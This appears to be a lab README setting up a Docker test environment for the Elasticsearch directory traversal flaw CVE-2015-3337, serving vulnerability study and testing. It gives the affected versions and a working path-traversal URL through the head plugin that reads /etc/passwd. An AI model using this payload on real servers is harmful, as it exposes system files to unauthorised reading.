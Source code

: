 # ElasticSearch Directory Traversal Vulnerability (CVE-2015-3337) Test Environment

Jre version: openjdk: 8-jre

Elasticsearch version: v1.4.4

Impact version: 1.4.5 or less / 1.5.2 or less

## Principle

After installing the plugin with the "site" function, the plugin directory can be jumped up using `../`, causing the directory to traverse the vulnerability and can read any file. Elasticsearch without any plugins installed is not affected.

## test environment

Compile and run the test environment

```
Docker-compose build
Docker-compose up -d
```

The test environment has a plugin installed by default: `elasticsearch-head`, the home page is here: https://github.com/mobz/elasticsearch-head

Go to `http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd` to read any File (do not access it in the browser):

![](1.png)

## head插件

The head plugin provides the front page of elasticsearch. You can see it by visiting `http://your-ip:9200/_plugin/head/`, not much to say.